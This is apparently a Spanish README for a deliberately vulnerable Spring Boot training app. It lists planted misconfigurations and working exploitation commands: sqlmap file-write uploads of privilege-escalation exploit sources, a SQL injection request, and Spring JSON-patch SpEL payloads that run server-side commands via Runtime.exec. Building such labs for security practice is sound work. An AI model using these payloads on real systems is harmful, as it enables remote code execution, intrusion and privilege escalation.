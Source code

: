 # AppVulnerable

## Errores de Configuración en el Server:

1. La aplicación utiliza el usuario de root para acceder a la base de datos.
2. Se encuentra configurado para que todos los usuarios tengan permisos para las carpetas
chmod -R a+rwX /var/lib/

## Pasos previos

Se debe tener corriendo una base de datos mysql y ejecutar los scripts que estan dentro de la carpeta script para crear la tabla y el usuario que la app usa

## Requests que explotan vulnerabilidades

sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/compile.sh --file-dest=/var/lib/mysql-files/compile.sh

sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/hello.c --file-dest=/var/lib/mysql-files/hello.c

sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/suidhelper.c --file-dest=/var/lib/mysql-files/suidhelper.c

#Partición del archivo doubleput.c

split  doubleput.c -b 2KB

sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/xaa --file-dest=/var/lib/mysql-files/xaa
sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/xab --file-dest=/var/lib/mysql-files/xab
sqlmap -u http://192.168.0.110:8080/users/123?id=1 --file-write=/root/Documentos/AppVulnerable/exploit/xac --file-dest=/var/lib/mysql-files/xac



- curl -X GET localhost:8080/users?id=6%20OR%201=1
	- id es un campo vulnerable a sql injection

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"[comando]\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Ejecuta comandos del lado del servidor
	- Pervio a esto se debe crear la /entity/1/ con -> curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Permite ver el output de la ejecucion del comando


## Frontend

Actualmente se levanta lo que este en /src/main/resources/*
Ir al directorio donde esta la aplicacion y correr

- mvn clean install
    - Agrega las dependencias para la carga de template thymeleaf y dependencias para el frontend, tambien crea el directorio
    /src/front/dist y copia los archivos generados a /src/main/resources/static

- mvn spring-boot:run
    - Levanta la aplicacion en el puerto 8080


